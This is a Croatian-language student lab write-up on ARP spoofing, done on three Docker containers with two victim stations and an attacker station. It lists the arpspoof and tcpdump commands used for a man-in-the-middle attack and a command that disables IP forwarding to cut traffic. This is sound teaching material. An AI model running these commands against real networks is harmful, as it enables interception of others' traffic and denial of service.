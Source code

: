 # Sigurnost računala i podataka

# LABORATORIJSKA VJEŽBA 1 - ARP SPOOFING

U okviru prve vježbe analizirali smo ranjivost ARP-koja napadaču omogućava izvođenje ***man in the middle*** i ***denial of service*** napada na računalima koja dijele zajedničku lokalnu mrežu(LAN).

Napad je testiran koristeći 3 virtualizirana Docker računala: dvije žrtve station-1 i station-2 te napadač evil-station.

Budući da je vježba rađena na računalu sa Windows operacijskim sustavom, prvi zadatak bilo je pokretanje Ubuntu terminala koristeći WSL (Windows Subsystem for Linux).

Pozicioniravši se u odgovarajući direktorij, klonirani smo GitHub repozitorij sa potrebnim sadržajem.

```bash
git clone [https://github.com/mcagalj/SRP-2021-22](https://github.com/mcagalj/SRP-2021-22)
```

Potom smo bili upoznati sa skriptama koje su zadužene za pokretanje i zaustavljanje docker kontejnera.

**Pokretanje**

```bash
$ ./start.sh
```

**Zaustavljanje**

```bash
$ ./stop.sh
```

Idući korak bilo je pokretanje interaktivnog shella u station-1 kontejneru te provjera njegove konfiguracije mrežnog interface-a.

**Pokretanje shella station-1**

```bash
$ docker exec -it station-1 bash
```

**Provjera konfiguracije mrežnog interface-a**

```bash
$ ifconfig -a
```

Dobivši podatke o stationu-1, provjerili smo nalazi li se station-2 na istoj mreži kao i station-1 te smo pokrenuli interaktivni shell i za drugi kontejner.

**Provjera mreže**

```bash
$ ping station-2
```

**Pokretanje shella station-2**

```bash
$ docker exec -it station-2 bash
```

Koristeći **netcat,** ostavirili smo konekciju između station-1 i station-2 kontejnera. ****

**Station-1 → server na portu 9000**

```bash
$ netcat -lp 9000
```

**Station 2 → client na hostname-u station-1 9000**

```bash
$ netcat station-1 9000
```

# Napad

Bilo je potrebno pokrenuti interaktivni shell u evil-station kontejneru te pokrenuti arpspoof i tcpdump.

**Pokretanje shella evil-station**

```bash
$ docker exec -it evil-station bash
```

**Arpspoof**

```bash
$ arpspoof -t station-1 station-2
```

**Tcpdump**

```bash
$ tcpdump
```

Tcpdump nam je omogućio praćenje prometa. Posljednja naredba koju smo pozvali bila je ona kojom smo u potpunosti spriječili promet između stationa-1 i stationa-2.

```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

# Zaključak

- Uspješnom ARP spoofing napadu prethodi narušavanje integriteta
- Netcat nije enkriptiran način komunikacije budući da smo uspješno vidjeli čitav sadržaj